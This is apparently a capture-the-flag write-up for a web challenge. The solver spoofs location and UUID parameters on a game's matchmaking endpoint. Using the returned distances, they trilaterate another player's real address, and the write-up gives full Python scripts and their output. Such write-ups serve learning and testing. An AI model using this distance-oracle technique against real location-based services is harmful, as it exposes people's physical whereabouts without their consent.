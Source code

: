### Description
The number 1 player in this game, geopy hit 3000 elo last week. I want to figure out where they train to be the best.

Flag is the address of this player (according to google maps), in the following format all lowercase:

`utflag{<street-address>-<city>-<zip-code>}`

For example, if the address is 110 Inner Campus Drive, Austin, TX 78705, the flag would be 

`utflag{110-inner-campus-drive-austin-78705}`
### Solution
In this challenge, we can retrieve a user's location via specific web server endpoints:
```
POST /battle?uuid=4f15cb78-e172-4ddf-b1eb-9631a0c3acb9&opponent=0bd714c0-16ec-4ae9-a40f-c0ed5e0c9f06&number=1
```
Response:
```
{"elo":965,"opponent_number":6510,"result":"loss"}
```
This request uses the player's UUID to fetch a random opponent's UUID. However, it always results in a loss.

Another useful endpoint is:
```
/match?uuid=4f15cb78-e172-4ddf-b1eb-9631a0c3acb9&lat=21.1451904&lon=105.5195136
```
Response:
```
{"distance":5217.403584100136,"elo":1090,"user":"Hair Darter 929","uuid":"cf1d2fae-d38f-4705-a349-ccd55b018142"}
```
This endpoint is exploitable since it allows us to manipulate the UUID and our location:

- We can extract high-Elo players by querying their UUIDs.

- We can spoof our location and measure distance changes to pinpoint geopy’s exact location.

### Step 1: Finding a High-Elo UUID

To find a high-Elo player (near 3000) and match with geopy, we can recursively search for a higher-Elo UUID:
```py
import warnings
import requests
from urllib3.exceptions import InsecureRequestWarning
warnings.filterwarnings("ignore", category=InsecureRequestWarning)

url = "https://numberchamp-challenge.utctf.live/"
uuid = "4f15cb78-e172-4ddf-b1eb-9631a0c3acb9"
lat = "21.1451904"
lon = "105.5195136"
currentelo = 1000
def finduuid():
    global uuid, lat, lon, currentelo
    currentUrl = f"{url}match?uuid={uuid}&lat={lat}&lon={lon}"
    try:
        r = requests.post(currentUrl, verify=False, timeout=1)
        data = r.json()
        print(data.get("elo"))
        if data.get("elo") > currentelo:
            currentelo = data.get("elo")
            uuid = data.get("uuid")
        if currentelo > 2950:
            print(data.get("uuid"))
            return
        finduuid()
    except requests.exceptions.Timeout:
        finduuid()

finduuid()
```
Terminal:
```
[$] <> python3 solve.py 
1024
1156
1189
1306
1305
1385
1497
1649
1680
1602
1708
1726
1744
1770
1929
2094
2270
2411
2557
2609
2751
2908
2923
2989
7eac8653-2bdf-4f9a-b215-9dee4e771aa0
```
Use this uuid and we get to match with `geopy`!

![alt text](image/image.png)

### Step 2: Locating geopy

Since the response includes distance, we can use a search algorithm to determine geopy's exact coordinates. In the event, I could just use Intruder to find the exact location by brute-forcing the lat and lon value.

After the event, I write a script to get the location:

```py
import warnings
import requests
from urllib3.exceptions import InsecureRequestWarning
warnings.filterwarnings("ignore", category=InsecureRequestWarning)

url = "https://numberchamp-challenge.utctf.live/"
uuid = "7eac8653-2bdf-4f9a-b215-9dee4e771aa0"
#lat = "21.1451904"
# lon = "105.5195136"
def sendReqToGetDist(lat, lon):
    global uuid
    currentUrl = f"{url}match?uuid={uuid}&lat={lat}&lon={lon}"
    try:
        r = requests.post(currentUrl, verify=False, timeout=1)
        data = r.json()
        if (data.get("user")) == "geopy": 
            dist = data.get("distance")
            print(f"value: {lat} and dist is: {dist}, user: {data.get("user")}")
            return float(dist)
        else:
            return sendReqToGetDist(lat, lon)
    except requests.exceptions.Timeout:
        sendReqToGetDist(lat, lon)
    except Exception as e:
        sendReqToGetDist(lat, lon)

def fancyDSA(l, r, depth=0, max_depth=20):
    step = (r - l) / 4
    currentMinDist = 9999
    currentMinVal = None

    for n in range(5):
        x = l + n * step
        tmpDist = None
        while tmpDist is None:
            tmpDist = sendReqToGetDist(x, -80)

        if  tmpDist < currentMinDist:
            currentMinDist = tmpDist
            currentMinVal = x


    inx = (r - l) / 4
    left_bound = currentMinVal - inx
    right_bound = currentMinVal + inx

    print(f"\n[Depth {depth}] Go to the next range")
    print(f"[*] Found minDist={currentMinDist:.4f} at x={currentMinVal:.4f}")
    print(f"[*] The new range is ({left_bound}, {right_bound})")

    fancyDSA(left_bound, right_bound, depth + 1, max_depth)

fancyDSA(-89, 89)
```

To find the lat value:
```
[$] <> python3 solve.py 
value: -89.0 and dist is: 8893.894580084816, user: geopy
value: -44.5 and dist is: 5814.242026366863, user: geopy
value: 0.0 and dist is: 2754.7768563625427, user: geopy
value: 0.0 and dist is: 2754.7768563625427, user: geopy
value: 44.5 and dist is: 350.18424403177676, user: geopy
value: 89.0 and dist is: 3397.355347742376, user: geopy

[Depth 0] Go to the next range
[*] Found minDist=350.1842 at x=44.5000
[*] The new range is (0.0, 89.0)
.
.
.
[Depth 10] Go to the next range
[*] Found minDist=159.1167 at x=39.9805
[*] The new range is (39.93701171875, 40.02392578125)
```

The lat value is approximately 39.9805

Modify the code a bit to get the lon value:
```
[$] <> python3 solve.py 
[Depth 0] Go to the next range
[*] Found minDist=39.7397 at x=-82.2500
[*] The new range is (-84.5, -80.0)

.
.
.

[Depth 10] Go to the next range
[*] Found minDist=2.7654 at x=-82.9971
[*] The new range is (-82.999267578125, -82.994873046875)
```

You can repeat the process
```
[Depth 7] Go to the next range
[*] Found minDist=0.0215 at x=39.9404
[*] The new range is (39.940237045288086, 39.94057655334473)
```
Running the above script 3 times give me the location: `39.9404, -82.9971`

![alt text](image/image-1.png)

flag: `utflag{1059-s-high-st-columbus-43206}`